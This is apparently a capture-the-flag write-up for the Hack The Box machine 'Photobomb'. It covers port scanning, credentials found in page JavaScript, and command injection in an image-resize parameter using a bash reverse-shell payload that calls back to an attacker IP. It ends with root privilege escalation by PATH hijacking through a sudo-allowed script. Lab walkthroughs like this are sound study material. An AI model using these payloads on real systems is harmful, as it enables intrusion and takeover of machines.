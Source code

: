 # Photobomb

## Nmap scan
<br>

```bash
sudo nmap -sS --min-rate 5000 -p- -Pn -n -vvv --open 10.10.11.182
```
![image](./images/nmapsS.png)
```bash
nmap -sCV -p 22,80 10.10.11.182 -oN nmap
```
![image](./images/nmapsCV.png)

We have two ports open: 22 (ssh) and 80 (http)

<br>

## Web exploitation
<br>
The website has a basic http auth for accesing the printer functionality.

![image](./images/webAuth.png)

We can find the credentials in plain text in the javascript of the web page.

![image](./images/webCreds.png)

In the printer section we can select the file type and the dimensions of the file we want to download. If we intercept the traffic with burp, and include a null byte in one of the parameters, we can produce an error.

![image](./images/webRequest.png)
![image](./images/webError.png)

We can see that the error shows the source code of the program. The program executes a command to resize an image if the image doesn't already exists. So we can use inject commands to get RCE on the machine.
We use the following payload to try to get a reverse shell.

```bash
;bash -c 'bash -i >& /dev/tcp/10.10.14.99/1234 0>&1'
```
![image](./images/reverseRequest.png)
![image](./images/reverseShell.png)

<br>

## Privesc

<br>

Executing sudo -l we see that we can run as root and set the environment variables of the command /opt/cleanup.sh

![image](./images/sudol.png)

We can abuse this by using path hijacking, we can provide a new PATH variable to execute a script that we control if the cleanup.sh script doesn't use the full path of the binary.

![image](./images/cleanup.png)

For example we can use the command find because it doesn't use the full path of the binary.

![image](./images/find.png)

We create a find script on /tmp to later add the /tmp folder to the path and execute the find script that we control first. We execute the following command changing the PATH to PATH=/tmp:/bin and we get a shell as root.

```bash
sudo -E PATH=/tmp:/bin /opt/cleanup.sh
```

![image](./images/root.png)
